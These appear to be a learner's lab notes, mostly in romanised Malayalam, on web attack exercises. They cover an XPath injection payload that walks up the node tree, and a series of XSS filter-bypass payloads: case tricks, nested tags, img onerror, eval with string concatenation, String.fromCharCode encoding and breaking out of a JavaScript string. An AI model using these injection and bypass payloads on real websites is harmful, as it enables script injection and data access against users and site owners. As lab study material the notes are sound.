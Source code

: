 -->NOTE : Here, the problem is that we need to get back up in the node hierarchy, to get more information. In XPath, this can be done using `parent::*` as part of the payload. We can now select the parent of the current node, and display all the child node using `hacker'%20or%201=1]/parent::*/child::node()%00`.

===========================================================

# XSS 01
-->just url il `<script>alert(9)</script>` adikumbol alert aakunund

# XSS 02
-->Ivide `<sCriPt>alert(9)</sCRipT>`  enn kodukumbol alert aakunund ok

# XSS 03
-->ivide `<sc<script>ript>alert(9)</scr</script>ipt>`  enn kodukumbol alert aakunund

# XSS 04
-->`<img src=x onerror="alert('66d1486a-6571-4069-a67b-c4a70a99798d')"></img>`  enn kodukumbol error varunu

# XSS 05
-->ivide namal paramter il `<script>alert(9)</script>`  enn idumbol onum aakunila.view-source nokumbol ee payload ittathkond baki script onum load aakunath thane ila
-->so namal alert il oru plus idunu al+ert(9) with url encode al%2bert(9) 
-->ipol filter bypass chyan patunund but pop up onum ila
-->so `<script>"al"%2b"ert(9)"</script>`  enn koduth send chyuka.%2b means plus(+)
-->ini ithil eval()  idam ie,`<script>eval("al"%2b"ert(9)")</script>` so ipol namuk xss pop up aayi ok
-->ini vere reethiyil engane chyamen nokam ie, Stringfromcharcode
-->so inspector il poi console edukuka enit athil ->String.fromCharCode(64)  enadikuka apol athin corresponding aaya value kitum ok ie, @
-->so ini terminalil poi ->man ascii adichit 64 poi nokuka.pala 64 kanum.but namuk vendath @ veruna 64 aan.so Decimal vale aan
-->athinartham string.formcharcode decimal value aan use chyunath.so ingane decimal use chyth alert undakan nokam ok
-->String.fromCharCode(97,108,101,114,116,40,49,41)   enn console il adichal alert(1)  enn kanikum ok
-->ini ith nerthe script inte koode add chyumbol xss popup aakunund ok :
->`<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>`

# XSS 06
-->ivide namal paramter il kodukuna value already oru javascript inte ullul aan varunath.so namal noki chyanam
-->ivide ?name=  blank kodukumbol :
```
 <script>
    var $a= "";
 </script>
```
enn kanikunu
-->so namuk adyma oru double qoute itt aa value close chyam.pine semicolon itt variable close chyam.pine namuk enth venelum chyam like `";</script><script>alert(9)</script>//`
itt send adichal xss trigger aakum ok
-->illengil namuk semicolon itt puthiya oru varibale kodukam.athayath chela samayam namuk comment ida patiyilengil namuk ee trick use chythamathi ie,name=";var $a=" enn kodukumbol :
```
<script>
    var $a= "";var $a="";
```